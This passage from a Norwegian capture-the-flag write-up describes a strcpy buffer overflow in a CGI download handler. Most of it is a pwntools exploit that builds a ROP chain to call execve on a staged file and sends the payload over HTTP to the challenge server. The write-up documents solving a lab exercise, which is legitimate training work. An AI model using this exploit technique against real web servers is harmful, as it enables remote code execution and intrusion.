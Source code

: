 ```c
      strcpy(dest, has_query_string);
      url_decode(dest, has_query_string, v3, v4);
      return 1LL;
    }
  }
  return result;
}
```

og her kopieres (strcpy) bare QUERY_STRING rett inn i et buffer definert som `char filename[136]`. Det er en ganske åpenbar buffer overflow, og med den er det mulig å overskrive retur-adressen på stacken, ettersom det ikke er noen canary der for å beskytte den. Ved å bruke Return-Oriented Programming (ROP), kombinert med alle gadgetene gjemt i filen `egg.jpg` som er embeddet i ELF-fila, er det mulig å kjøre egen kode som `apache`-brukeren. 

Å få kjørt `execve` på en streng er ikke så vanskelig, gitt alle ROP-gadgetene vi har, men å skape en streng skulle vise seg å være vanskelig. Løsningen min benytter pwntools, og utnytter det at jeg gjorde `2.09_pam` før denne oppgaven, og dermed hadde skrivetilgang som `user` på samme maskin.

```python
from pwn import *
from urllib.parse import quote

SCRATCH   = 0x40E220
WRITE_RAX = 0x40a3d3
POP_RAX   = 0x401001
POP_RDX   = 0x403e03

rop = ROP(elf)
rop.execve(SCRATCH, 0, 0)

env["QUERY_STRING"] += "A"*160 + "B"*8
env["QUERY_STRING"] += quote(p64(POP_RAX))
env["QUERY_STRING"] += quote(p64(SCRATCH-8))
env["QUERY_STRING"] += quote(p64(POP_RDX))
env["QUERY_STRING"] += quote(b"/tmp".ljust(8, b"\x00"))
env["QUERY_STRING"] += quote(p64(WRITE_RAX))
env["QUERY_STRING"] += quote(p64(0xdeadbeefdeadbeef)) # RBX

env["QUERY_STRING"] += quote(p64(POP_RAX))
env["QUERY_STRING"] += quote(p64(SCRATCH-8+4))
env["QUERY_STRING"] += quote(p64(POP_RDX))
env["QUERY_STRING"] += quote(b"/g".ljust(8, b"\x00"))
env["QUERY_STRING"] += quote(p64(WRITE_RAX))
env["QUERY_STRING"] += quote(p64(0xdeadbeefdeadbeef)) # RBX

env["QUERY_STRING"] += quote(rop.chain())

r = remote("x.x.x.x", 80)
payload  = f"GET /cgi-bin/lootd.v2/download?{env['QUERY_STRING']} HTTP/1.1\r\n"

payload += "Host: anvilshop.utl\r\n"
payload += "User-Agent: curl/7.80.0\r\n"
payload += "Accept: */*\r\n"
payload += "Authorization: xxxx...\r\n"
payload += "\r\n"
r.send(payload.encode())
r.interactive()
```
